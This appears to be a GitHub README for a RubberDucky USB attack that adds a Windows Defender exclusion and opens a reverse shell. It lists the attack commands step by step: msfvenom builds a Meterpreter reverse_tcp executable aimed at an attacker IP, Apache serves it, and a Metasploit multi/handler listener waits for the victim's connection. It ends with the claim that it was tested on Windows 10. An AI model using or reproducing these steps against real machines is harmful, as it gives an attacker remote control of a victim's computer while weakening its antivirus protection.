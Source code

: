 Windows Defender ExclusionPath + ReverseShell
=============================================

1. Create payload using msfvenom in kali linux:
> $ msfvenom -p windows//x64/meterpreter/reverse_tcp lhost=<attacker IP> lport=<port> -f exe -o /var/www/html/windowsx64.exe
  
2. Run Apache Service on Kali Linux
> $ service apache2 start
  
3. Run Metasploit on Kali Linux
> $ msfconsole <br />
> $ use exploit/multi/handler <br />
> $ set payload windows/x64/meterpreter/reverse_tcp <br />
> $ set LHOST attacker_IP <br />
> $ set LPORT port <br />
> $ run
  
4. Connect RubberDucky to Target Machine
  
P/S : Tested on Windows 10 Version 21H1(OS Build 19043.1348)
  
![Win Ver](https://github.com/auffAzani/RubberDucky/blob/main/Windows%20Defender%20ExclusionPath%20%2B%20ReverseShell/Winver.PNG)
